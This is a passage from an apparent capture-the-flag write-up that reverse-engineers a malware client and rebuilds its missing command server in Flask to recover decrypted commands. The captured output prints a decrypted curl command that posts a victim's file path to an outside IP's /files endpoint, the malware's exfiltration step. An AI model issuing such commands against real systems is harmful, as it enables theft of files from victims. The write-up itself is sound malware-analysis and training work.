 The client container uses an Ubuntu base image and adds a binary program (the malware) and the flag (**flag.txt**) to it. The container starts the malware on startup.

We can use a decompiler to inspect the binary file, here are a few key lines from the decompiled program:

<details><summary><b>decompiled(client).pseudocode.c</b></summary></details>

This decompiled "pseudocode" more or less confirms what we already knew from the wireshark dump. One interesting additional piece of information that we got, is that the client logs everything, including the commands before they get decrypted, after they get encrypted, the key that was used... This "feature" might come in handy and save us some work later.


## Reverse-Engineering the server
### Fakeserver:
While we don't have the source code of the server itself, we already have plenty of information about how it works / what routes the server has. We can use this information to try to partially reverse-engineer the missing server.py file. I've started by creating a simple Flask application that implements all known HTTP routes:

For now, the server just returns the same data that was captured, the goal is to try to replicate the exchange that was recorded. The hope is that if we replicate the key exchange 1:1, the client will decrypt the command for us.

<details><summary><b>fakeserver.py</b></summary></details>

After replacing the missing server and starting the docker-compose environment we get the following output in the command line:

```
{"A":350,"client_id":"6d1201ab97aba6a7","g":547,"p":827}

SHARED KEY: 73
{"message":"Key exchange successfull"}
BEFORE DECRYPTION: *<;%i!==9sffx~{gxy|gq~gxzzsqyyyf/ %,:idik
&'=,'=d09,si(99% *(= &'f#:&'kidiidd-(=(in2k*% ,'= -ksik(}qz/q}|}|}+|x}~keik:!(;,-",0ksik~zkeik9(=!ksikf;&&=f;,8< ;,$,'=:g=1=k4n
AFTER DECRYPTION: curl http://172.105.87.133:8000/files -H "Content-Type: application/json" -X POST --data '{"client_id": "a483f845454b5147", "shared_key": "73", "path": "/root/requirements.txt"}'k~zkeiQ	
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
curl: (7) Failed to connect to 172.105.87.133 port 8000 after 15 ms: Couldn't connect to server
RESULT:
"Recieved data"
```

As shown in the output above, we were successfully able to decrypt the command that was sent to the victim. The command made a curl request to a `/files` endpoint, that's interesting because we didn't know this endpoint even existed before.

### `/files` endpoint
Let's take a closer look at the `/files` endpoint:
##### /files `POST`
*Request:*
```json
{
    "client_id": "a483f845454b5147",
    "shared_key": "73",
    "path": "/root/requirements.txt"
}
```
*Response:*
```json
?
```